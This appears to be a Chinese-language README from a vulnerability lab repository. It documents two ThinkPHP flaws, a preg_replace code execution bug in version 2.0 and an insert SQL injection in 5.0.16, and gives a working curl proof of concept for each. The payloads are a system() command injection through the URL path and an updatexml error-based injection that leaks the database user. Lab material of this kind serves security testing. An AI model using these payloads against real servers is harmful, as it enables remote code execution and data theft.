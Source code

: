 ## preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```


## 5.0.16 insert 注入

测试镜像

* src/thinkphp/5.0.16/

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

